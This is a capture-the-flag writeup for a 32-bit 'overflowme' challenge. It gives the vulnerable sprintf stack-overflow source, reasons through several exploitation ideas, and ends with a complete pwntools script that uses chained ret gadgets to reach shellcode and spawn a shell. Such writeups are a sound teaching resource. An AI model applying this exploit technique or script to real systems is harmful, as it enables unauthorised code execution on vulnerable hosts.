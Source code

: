 # Overflowme Writeup

## 0x00 Introduction

Actually this problem is not hard, but I didn't get the point at the beginning, so it spent me about a few hours... Therefore, I wrote this writeup to record and conclude for myself.

## 0x01 Problem

obvious stack overflow，as shown

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "inspection.h"
void vuln(char *str) {
    char buf[770];
    sprintf(buf, "Hello %s", str);
    puts(buf);
    fflush(stdout);
    return;
}

void be_nice_to_people(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
}

int main(int argc, char **argv) {

    if (argc != 2) {
        printf("Usage: %s [name]\n", argv[0]);
        return 1;
    }
    be_nice_to_people();
    vuln(argv[1]);
    return 0;
}
```

The input is the argv[1], so to debug using gdb, we need to do this in pwntool python script

```python
sh = gdb.debug(["./overflowme", payload], "b vuln")
```

instead of

```python
sh = process(["./overflowme", payload])
```

when executing the process

## 0x02 Approach

### find jmp esp/jmp ebx/jmp ebp/call esp/call ebx/call ebp

When vuln terminates, where control flow can be hijacked:

![](overflowme_register.png)

ebx/esp/ebp points to stack, which means that we can fill this address using our payload. However, there is no such instruction in this program since the program is so small.

Then, I was thinking about ROP to move value of ebx to eax/edx and return to call eax/edx, which this program has.

However, again, the program is so small that we cannot find such ROP chain.

Then I found that data segment of this program is both writable and executable, and we know address of data segment, so I would like to find something like DWORD SHOOT to construct such instruction in data segment and return to the instruction that I created.

This program is small, the only possible DWORD SHOOT is using register ebp as base address register, so we need to change ebp to pointer in data segment. However, after those instruction, "leave" instruction is executed, so esp=ebp, but ebp points to data segment, so return address is not controlled by me anymore. Same for the method to shoot esp into data segment and use push to change data in data segment. \(This one is even more impossible, since change esp to somewhere uncontrollable cannot help us in constructing ROP\)

What about using sprintf? This can write data into data segment if we let dst pointer point to data segment. However, our we don't know address of stack, but our payload is in stack, so we cannot do this.

What about using %x in data segment to shoot something into code segment? In this way what we need is value that can be controlled instead of address pointing to out payload. However, the possible bytes are limited, alpha shellcode is possible, but quite complicated to construct. \(will try this if I have time later\)

At this point, I realized that I was thinking in the wrong direction, since I do not think this question is hard like that.

### find ROP that output GOT and input system address

I have used this technique in solving caas, in which I constructed ROP in heap and the address of heap is known. Thus, I can manipulate ebp in the way that leave/ret will help us to execute next call. However, in this case, stack address is unknown, so we cannot do this. 

However, in this case, we have "add,esp xxx; pop xxx; pop xxx; ret" \(There is no leave\). Thus we can execute sequence of call without need to know stack address.

However, there is not such function imported as read/scanf, so we cannot do this.

### utilize data in stack

Utilizing data in register cannot succeed, so why not utilize data in stack? It is possible.

![](overflowme_stack.png)

This is stack when ret in vuln is executed. Nice! The 2nd dword in stack points to our payload since argument of vuln is pointer to our input, so as long as we make return address to be a ret, double ret will make eip jump to our shellcode!

What's the problem here? The overflow function is sprintf, in which there is '\0' added in the end, so least significant byte of pointer to our input will be changed to 0, so this address is no longer our input anymore but something previous, which causes segmentation fault before shellcode is reached.

How to solve this? If we can find a ret with address 0x080400xx or 0x08048600 \(partly overflow\), we can ret to that ret, so pointer to out input will not be corrupted. Unluckily, there is no such ret. 

However, we can do several sequence of ret until next dword, if least significant byte being cleared to 0, will point to our shellcode.

Actually,  if we clear LSB of 0xffffcb78 to get 0xffffcb00, we can find that

![](overflowme_see.png)

Wow! This can be our shellcode if we put shellcode in the end of payload!

Thus, final exp is

```python
from pwn import *
g_local = False
shellcode = asm("sub esp,0x7f;sub esp,0x7f;sub esp,0x7f;sub esp,0x7f;sub esp,0x7f;" + shellcraft.i386.linux.sh())
# sub esp is to prevent the data being pushed into stack in shellcode corrupt shellcode itself, important in NX disabled exploitation
overflow_len = 0x308
if g_local:
	padding = 0#x18
else:
	padding = 0#x28

payload = ("A" * (overflow_len - len(shellcode) - padding)) + shellcode + "A"*padding + p32(0x8048615) * 3
# 0x8048615 is address of ret

if g_local:
	#sh = gdb.debug(["./overflowme", payload], "b vuln")
	sh = process(["./overflowme", payload])
else:
	sh = process(["/problems/b0b419078e5ac70c47a50b04b2aae2d9/overflowme", payload])

print hex(len(payload))
print payload

sh.interactive()
```

